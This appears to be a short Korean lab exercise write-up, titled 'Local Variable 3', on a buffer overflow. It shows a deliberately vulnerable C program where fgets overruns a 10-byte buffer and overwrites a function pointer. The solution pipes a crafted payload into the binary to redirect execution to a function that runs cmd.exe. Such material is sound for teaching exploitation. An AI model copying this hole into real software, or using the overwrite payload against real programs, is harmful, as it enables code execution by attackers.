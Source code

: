 # Local Variable 3

### Question

- cmd.exe가 실행되도록 입력 페이로드 구현

```
void shell() {
	system("cmd.exe");
}void printit() {
	printf("I'm sorry\\n");
}int main()
{
	int crap;
	void(*call)() = printit;
	char buf[10];
	fgets(buf, 29, stdin);
	call();
}

```



<br>



### Result

```
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
	char cmd[1024] = "python2 -c \"print \'A\'*10 + \'\\x60\\x14\\x40\\x00\'\"";
	char *fname = ".\\local_var_3.exe";

	strcat(cmd, " | ");
	strcat(cmd, fname);

	//printf("%s\n", cmd);
	system(cmd);

	return 0;
}
```

![image-1.png](images/image-25.png)
